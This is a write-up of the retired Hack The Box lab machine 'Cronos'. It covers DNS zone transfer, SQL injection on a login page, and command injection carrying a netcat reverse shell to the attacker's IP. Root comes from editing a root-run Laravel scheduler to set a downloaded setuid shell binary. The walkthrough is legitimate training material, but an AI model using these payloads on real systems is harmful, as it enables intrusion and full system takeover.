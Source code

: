 # Cronos

This is the write-up for the box Cronos that got retired at the 5th August 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.13    cronos.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/cronos.nmap 10.10.10.13
```

```markdown
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we see the Apache2 default page.
As this server has DNS open there will probably be _Virtual Host Routing_ active so lets visit the site with the hostname **cronos.htb**.

Now we see a real web page with this:

![Cronos web page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_web-page.png)

All the links have something to do with a software called **Laravel** which is a PHP framework.
As this won't help much we start _Gobuster_ to look for hidden paths on this site:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://cronos.htb/ 
```

We only get _/server-status_ but with a HTTP code 403 (Forbidden).

## Checking DNS (Port 53)

As the DNS service runs on TCP, which is unusual, we will check for _DNS Zone Transfer records_:
```markdown
dig axfr @10.10.10.13 cronos.htb
```
```markdown
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

The most interesting one is probably **admin.cronos.htb** so lets put the domains in the _Hosts_ file and browse there.
It gives us a login page:

![Cronos login page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_login-page.png)

### Exploiting the Login Page

After copying the request for the login page and saving it as a file (login.req) we try a SQL Injection with _SQLMap_ on this:
```markdown
sqlmap -r login.req 
```

The mostinteresting output from SQLMap is this:
> sqlmap got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n]

And this:
> POST parameter 'username' is vulnerable.(...)

So lets try a basic SQL Injection on the username field:

![Cronos SQL Injection](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_sqli.png)

And we are logged in and see this page:

![Cronos Welcome page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_welcome-page.png)

### Exploiting the Net Tool

This page executes the commands _traceroute_ and _ping_ from the system so lets try basic command injection by appending another command after a semicolon.
Appending `; whoami` on the input field gives us the output _www-data_ so we have command execution and will start a reverse shell that listens on my IP and port 9001:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9001 >/tmp/f

# In the request and URL-encoded:
command=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.8+9001+>/tmp/f
```

And we have a reverse shell session on the box!

## Privilege Escalation

Uploading and starting the enumeration script **LinEnum.sh** and looking at the output we see a cronjob that we want to exploit.
> \* \* \* \* \*    root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

The cronjob runs a Laravel command every minute as root and this can get us command execution as root.
On the [Laravel documentation](https://laravel.com/docs/5.8/scheduling) about how the scheduled commands work and create our own commands.

First we need to find the file **Kernel.php**:
```markdown
find / -iname Kernel.php 2>/dev/null

/var/www/laravel/app/Console/Kernel.php
```

We will modify the schedule function in this file to create the file _test_ in the _/tmp_ directory:
```php
//(...)
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('touch /tmp/test')->everyMinute(); //The line we add
        // $schedule->command('inspire')
        //          ->hourly();
    }
//(...)
```

After on minute the command gets automatically executed and file got created with root permissions.
That means we can compile a TTY shell and execute it to start a session with root.

We create a file named **shell.c** with this content:
```c
int main(void)
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

And compile it:
```markdown
gcc shell.c -o shell
```

Now we need to upload this shell on the box and make it executable: 
```markdown
# Downloading the binary on the box
wget http://10.10.14.8:8000/shell

# Making it executable
chmod +x shell
```

And we need modify the _Kernel.php_ script to give it the setuid bit and change the owner to root, so it runs as root:
```php
//(...)
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/shell; chmod 4755 /tmp/shell')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }
//(...)
```

After one minute it runs and we can run the binary and get a root shell!

